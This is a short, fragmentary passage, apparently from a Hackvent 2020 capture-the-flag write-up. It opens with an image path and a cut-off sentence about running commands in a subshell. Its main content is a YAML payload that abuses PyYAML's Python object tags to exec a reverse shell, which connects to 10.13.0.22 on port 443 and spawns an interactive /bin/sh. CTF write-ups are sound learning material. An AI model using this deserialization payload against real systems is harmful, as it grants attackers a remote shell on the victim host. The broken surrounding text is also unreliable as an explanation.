 ```` `` can run commands in a subshell. The limiting factor here is that the
    !!python/object/new:type
      args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
      listitems: 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    

[](/hackvent2020/hard)

